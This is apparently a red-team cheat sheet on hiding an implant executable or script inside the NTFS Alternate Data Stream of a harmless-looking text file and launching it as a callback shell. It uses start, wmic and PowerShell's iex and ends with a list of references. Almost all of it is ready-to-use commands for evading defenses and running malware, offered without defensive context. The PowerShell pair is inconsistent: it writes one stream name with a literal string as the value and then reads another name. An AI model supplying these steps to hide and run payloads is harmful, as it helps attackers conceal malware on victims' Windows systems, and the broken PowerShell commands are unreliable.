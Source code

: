 # Alternate Data Streams (ADS)

## 01 - Command Prompt

### 1.1 - Basics

Hide the file by appending inside an existing file.

```
C:\> type implant.exe > file.txt:implant.exe
```

Execute it

```
C:\> start file.txt:implant.exe
```

### 1.2 - WMIC

Execute Callback Shell via ADS

```
C:\> wmic.exe process create "c:\path\to\file.txt:implant.exe"
```

## 02 - PowerShell

### 2.1 - Basics

Hide the file by appending inside an existing file.

```
PS C:\> Set-Content file.txt -Stream script.ps1 -Value implant.ps1
```

Execute Callback Shell via ADS

```
PS C:\> Get-Content file.txt -Stream implant.ps1 | iex
```

---
## References

- [LOLBAS (Living Off The Land Binaries, Scripts and Libraries)](https://lolbas-project.github.io)

- [r00t-3xp10it: ADS](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/ADS.md)

- [Hacking Articles: Defense Evasion Alternate Data Streams](https://www.hackingarticles.in/defense-evasion-alternate-data-streams/)

- [InfoSec Writeups: Alternate Data Streams ADS](https://infosecwriteups.com/alternate-data-streams-ads-54b144a831f1)

- [OddVar Moe: Putting Data in Alternate Data Streams and How to Execute it](https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/)

- [CqureAcademy: Alternate Data Streams](https://cqureacademy.com/blog/alternate-data-streams)

- [ThreatSpike: Alternate Data Streams](https://www.threatspike.com/blogs/alternate-data-streams)